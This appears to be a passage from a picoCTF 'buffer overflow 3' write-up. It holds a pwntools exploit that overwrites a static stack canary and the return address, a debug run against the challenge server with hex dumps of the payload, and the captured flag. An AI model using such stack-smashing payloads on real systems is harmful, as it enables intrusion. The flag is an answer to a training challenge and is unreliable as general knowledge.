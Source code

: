 ```python

p.sendlineafter(b'How Many Bytes will You Write Into the Buffer?', str(88).encode())
payload = (b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa' + canary.encode() + b'raaasaaataaauaaa\x36\x93\x04\x08')
p.sendlineafter(b'Input> ',payload)
p.interactive()
```

**Note :** After executing previous script, we notice that the flag is printed then deleted due too some chariot returns. We use `DEBUG` option that is available when using `pwn tools` that helps debug process flux.

```
──(rivench㉿kali)-[~/Documents/picoCTF/pwn/buffer_overflow_3]
└─$  /usr/bin/python3 "/home/rivench/Documents/picoCTF/pwn/buffer_overflow_3/script.py" DEBUG
[+] Starting local process './vuln': pid 5847
[*] Stopped process './vuln' (pid 5847)
...
[+] Starting local process './vuln': pid 5849
[*] Process './vuln' stopped with exit code 0 (pid 5849)
[+] Starting local process './vuln': pid 5851
canary to go : BiRd
...
[+] Opening connection to saturn.picoctf.net on port 52245: Done
[DEBUG] Received 0x32 bytes:
    b'How Many Bytes will You Write Into the Buffer?\r\n'
    b'> '
[DEBUG] Sent 0x3 bytes:
    b'88\n'
[DEBUG] Received 0x4 bytes:
    b'88\r\n'
[DEBUG] Received 0x7 bytes:
    b'Input> '
[DEBUG] Sent 0x59 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  6b 61 61 61  6c 61 61 61  │iaaa│jaaa│kaaa│laaa│
    00000030  6d 61 61 61  6e 61 61 61  6f 61 61 61  70 61 61 61  │maaa│naaa│oaaa│paaa│
    00000040  42 69 52 64  72 61 61 61  73 61 61 61  74 61 61 61  │BiRd│raaa│saaa│taaa│
    00000050  75 61 61 61  36 93 04 08  0a                        │uaaa│6···│·│
    00000059
[*] Switching to interactive mode
[DEBUG] Received 0x5a bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  6b 61 61 61  6c 61 61 61  │iaaa│jaaa│kaaa│laaa│
    00000030  6d 61 61 61  6e 61 61 61  6f 61 61 61  70 61 61 61  │maaa│naaa│oaaa│paaa│
    00000040  42 69 52 64  72 61 61 61  73 61 61 61  74 61 61 61  │BiRd│raaa│saaa│taaa│
    00000050  75 61 61 61  36 93 5e 48  0d 0a                     │uaaa│6·^H│··│
    0000005a

[DEBUG] Received 0x48 bytes:
    b"Ok... Now Where's the Flag?\r\n"
    b'picoCTF{Stat1C_c4n4r13s_4R3_b4D_35bc40e2}\r\n'


[*] Got EOF while reading in interactive
$ 
[DEBUG] Sent 0x1 bytes:
    10 * 0x1
$ 
[DEBUG] Sent 0x1 bytes:
    10 * 0x1
$ 
```